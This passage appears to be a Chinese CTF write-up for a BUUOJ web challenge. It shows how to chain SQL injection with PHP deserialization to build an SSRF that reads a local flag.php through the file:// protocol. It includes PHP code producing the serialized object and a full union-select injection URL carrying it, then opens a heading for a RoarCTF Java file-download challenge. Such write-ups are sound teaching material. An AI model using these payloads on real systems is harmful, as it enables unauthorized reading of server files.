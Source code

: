 data 里是序列化后的个人信息, 结合之前得到的 user.php.bak 文件

思路应该是通过反序列化构造一个 ssrf, 然后利用 file:// 协议读取本地的 flag.php

不过注册的时候输入不了除 http https 之外的协议, 所以只能从这个 sql 注入下手

payload

```php
<?php

class UserInfo
{
    public $name = "1";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";

}

echo serialize(new UserInfo());
```

利用 union 的特性

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

![](assets/202208251046930-170074459625313.png)

![](assets/202208251046785-170074459625315.png)

## [RoarCTF 2019]Easy Java（java任意下载，读取 `WEB-INF/web.xml`）

java 的题
